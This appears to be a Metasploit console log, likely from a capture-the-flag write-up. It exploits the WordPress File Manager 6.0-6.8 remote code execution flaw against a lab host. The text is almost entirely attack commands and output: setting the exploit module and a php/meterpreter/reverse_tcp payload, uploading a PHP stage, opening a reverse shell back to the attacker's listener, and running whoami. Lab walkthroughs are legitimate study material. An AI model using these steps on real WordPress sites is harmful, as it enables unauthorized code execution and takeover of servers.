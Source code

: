 ```bash

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress File Manager 6.0-6.8
   
msf6 exploit(multi/http/wp_file_manager_rce) > set rhosts localhost
rhosts => localhost
msf6 exploit(multi/http/wp_file_manager_rce) > set lhost 10.13.3.36
lhost => 10.13.3.36
msf6 exploit(multi/http/wp_file_manager_rce) > exploit
[*] Exploiting target {:address=>"0.0.0.1", :hostname=>"localhost"}

[*] Started reverse TCP handler on 10.13.3.36:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. Enable ForceExploit to override check result.
[*] Exploiting target {:address=>"127.0.0.1", :hostname=>"localhost"}
[*] Started reverse TCP handler on 10.13.3.36:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] 127.0.0.1:80 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/8tfwkm.php
[*] Sending stage (39282 bytes) to 10.10.48.223
[+] Deleted 8tfwkm.php
[*] Meterpreter session 1 opened (10.13.3.36:4444 -> 10.10.48.223:57278) at 2021-04-18 11:08:43 -0400
[*] Session 1 created in the background.

msf6 exploit(multi/http/wp_file_manager_rce) > sessions 

Active sessions
===============

  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  1         meterpreter php/linux  cth (1000) @ badbyte  10.13.3.36:4444 -> 10.10.48.223:57278 (127.0.0.1)

msf6 exploit(multi/http/wp_file_manager_rce) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 22052 created.
Channel 0 created.

whoami
cth
```
